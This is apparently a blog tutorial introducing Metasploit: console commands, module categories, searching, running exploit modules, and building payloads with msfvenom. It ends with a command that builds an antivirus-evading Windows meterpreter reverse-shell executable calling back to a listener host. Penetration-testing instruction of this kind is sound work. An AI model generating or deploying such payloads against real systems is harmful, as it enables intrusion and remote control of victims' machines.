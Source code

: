 ```yaml
---
title: Pentesting with Metasploit the Vulnerability Exploitation Tool (with Cheat Sheets)
date: 2021-09-26
tags: [security, kali]
image: msf.png
---
```


Metasploit is the ultimate penetration testing tool for offensive security. And it's so easy to use that even you could claim to be a hacker just by running a few commands. Also, it is incredibly powerful as well. This guide is a general overview of how Metasploit can be used.

## 1. Getting started

Start the Metasploit console.

```bash
# Start the console
$ msfconsole
```

The console will now show the msf shell. You can provide commands on the shell to run various Metasploit modules.

Metasploit continuously adds new modules to its collection. To make sure you always have the latest exploits, run:

```bash
msf > msfupdate     # Update the msf database
```

Metasploit is quite big and it's easy to get lost around. If you need help, run:

```bash
msf > help          # Show help
```

The console output of the _help_ command might feel overwhelming as well. But don't worry. You'll always have this blog post to help you out.

## 2. Metasploit Modules

Metasploit has thousands of modules. They are arranged in the following categories:

* **Exploits**: It is the most commonly used module. It sends payloads to targets and executes them.
* **Payloads**: It consists of code that runs remotely to exploit the target.
* **Encoders**: It encodes a payload so that it is not detected by firewalls/anti-malware programs.
* **Nops**: It keeps payload sizes consistent when encoders encode a payload. (Learn more about nop sled).
* **Post**: It contains modules that assist post-exploitation.
* **Auxillary**: It includes port scanners, fuzzers, sniffers, and other helper modules.

You can see the modules under each of these categories. Check what exists by running:

```bash
$ show exploits
$ show payloads
```

## 3. Searching for Modules

If you've tried ```show exploits``` you've probably seen a huge list of modules. It's impossible to go through this list and find what you need. You can use the **search** functionality to filter/look for your desired modules. Run:

```bash
$ search ftp
```

This will show you modules that have exploits for FTP servers. You can filter based on more criteria:

```bash
$ search ftp platform:windows rank:excellent
```

This will show excellently ranked FTP server exploits for windows machines. You can filter based on the following fields:

* name
* path
* platform
* type
* app
* author
* cve
* bid
* osdvb

## 4. Run an Exploit

The following series of shell commands are typically used to run an exploit using Metasploit.

At first select the module of your choice that you want to run for exploitation.

```bash
msf > use exploit/[ExploitModule]
```

Modules have multiple options that need to be set for execution. To see what options can be set, see the options:

```bash
msf > show options
```

After seeing the options, set their values like:

```bash
msf > set [Option] [Value]
msf > RHOST 10.100.101.12       # example
msf > set RPORT 8000            # example
```

Now start the exploit:

```bash
msf > exploit
```

## 5. Make Payloads with Msfvenom

Sometimes you'll need to create standalone files as payloads to send them to your target. Msfvenom is a CLI tool that can help with creating these files.

At first search for payloads and encoders that msfvenom has. Payloads execute an attack and encoders encode a payload so that the payload can evade AVs.

```bash
$ msfvenom -l           # Payloads
$ msfvenom -l encoders  # Encoders
```

A typical msfvenom that generates payloads looks like this.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp
           -f exe 
           -e x86/shikata_ga_nai -i 5 
           LHOST=10.1.1.1
           LPORT=4444 > met.exe
```

Other output formats such as pl, rb, py can also be specified.

